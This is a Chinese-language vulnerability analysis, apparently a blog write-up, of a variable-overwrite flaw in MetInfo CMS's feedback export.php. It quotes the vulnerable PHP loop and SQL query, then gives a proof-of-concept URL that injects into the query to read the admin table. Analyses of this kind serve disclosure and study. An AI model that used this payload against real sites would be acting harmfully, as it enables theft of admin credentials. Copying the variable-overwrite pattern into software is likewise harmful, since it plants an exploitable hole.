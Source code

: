 接着他进行了一项很危险的操作：

```
foreach($settings_arr as $key=>$val){

        if($val['columnid']==$class1){

            $tingname    =$val['name'].'_'.$val['columnid'];   //这里导致变量名必须含有下划线的都可以被覆盖

            $$val['name']=$$tingname;

        }

    } 
```

其中,$settings_arr,$class1 都可以在 common.inc.php 中被覆盖，这就导致可以构造一定格式的变量（变量名必须要有下划线）

那么，如何利用，我们来找下面的 sql 语句，总共有三句，找第一句即可

```
$query = "SELECT * FROM $met_parameter where module=8 and lang='$lang' order by no_order"; 

         //>>>>注意，$met_parameter 是在$settings_arr 后被初始化的，不能直接覆盖，但是可以结合上面的危险操作，进行覆盖<<<<

    //print $query.'<br>';

    //die();

    $result = $db->query($query);

    while($list= $db->fetch_array($result)){

        /*

        print '<br><br>$list=';

        print_r($list);

        */

        $feedbackpara[$list['id']]=$list;  // 注意这里的 id

        $feedback_para[]=$list;

    } 
```

/////////////////////////////

我是猥琐的 poc（其中的 met_admin_table 的 met 为 metinfo 自定义的前缀，可以用户自定义）

[`localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table`](http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table) -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter
